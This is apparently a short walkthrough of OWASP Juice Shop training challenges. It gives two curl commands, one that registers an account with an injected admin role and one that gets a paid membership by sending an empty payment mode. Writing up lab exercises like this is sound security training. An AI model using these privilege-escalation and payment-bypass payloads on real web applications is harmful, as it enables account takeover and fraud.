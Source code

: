 # Improper Input Validation

## Admin Registration

Register as a user with administrator privileges

```bash
# register a user > inspect the response > add to the payload `"role":"admin"`
curl -sS http://juiceshop:3000/api/Users/ -H 'Content-Type: application/json' --data-raw $'{"email":"a@a.com","password":"12345","passwordRepeat":"12345","securityQuestion":{"id":3,"question":"Mother\'s birth date? (MM/DD/YY)","createdAt":"2023-11-07T08:41:38.130Z","updatedAt":"2023-11-07T08:41:38.130Z"},"securityAnswer":"000000","role":"admin"}' | jq
```

## Deluxe Fraud

Obtain a Deluxe Membership without paying for it

```bash
# enable wallet button
curl http://juiceshop:3000/rest/deluxe-membership -H 'Authorization: Bearer <AUTH_TOKEN>' -H 'Content-Type: application/json' --data-raw '{"paymentMode":""}'
```

<!--
## Empty User Registration

Register a user with an empty email and password
```bash
# TODO not implemented
```
-->
